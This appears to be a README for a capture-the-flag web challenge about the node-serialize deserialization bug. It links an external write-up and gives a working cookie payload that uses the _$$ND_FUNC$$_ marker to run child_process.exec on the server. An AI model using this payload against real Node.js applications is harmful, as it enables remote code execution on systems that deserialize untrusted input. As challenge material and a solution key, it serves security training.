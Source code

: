 # SOAL WEB KKST 

if u wanna check the solution just move to the `solution` branch.

this challenge is about node-serialize rce (blind rce):

https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

just parse the rce to the cookie :

`{"username":"_$$ND_FUNC$$_function (){require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });}()","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}`

and replace the cookie, then done u got shell